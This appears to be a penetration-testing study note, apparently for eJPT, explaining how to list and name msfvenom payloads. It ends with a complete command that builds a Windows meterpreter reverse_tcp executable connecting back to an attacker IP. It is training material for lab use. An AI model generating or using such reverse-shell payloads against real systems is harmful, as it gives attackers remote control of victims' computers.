 > ❗ ***Advanced modern antivirus solutions detects and blocks this type of payloads very easily.***

### [Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) Payloads

> [**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder
>
> - **`e.g.`** - generate a malicious meterpreter payload, transfer it to a client target; once executed it will connect back to the payload handler and provides with remote access

- List available payloads

```bash
msfvenom --list payloads
```

- When generating a payload the exact name of the payload must be specified
  - target operating system
  - target O.S. architecture (x64, x86 ...)
  - payload type
  - protocol used to connect back (depends on requirements)

![](assets/image-20230415190726950.png)

**`e.g.`** of **Staged payload**

- `windows/x64/meterpreter/reverse_tcp`

**`e.g.`** of **Non-Staged payload**

- `windows/x64/meterpreter_reverse_https`

![](assets/image-20230415191239575.png)

- Generate a Windows payload with `msfvenom`

**32bit payload:**

```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows_Payloads/payloadx86.exe

# LHOST = Attacker IP address
```
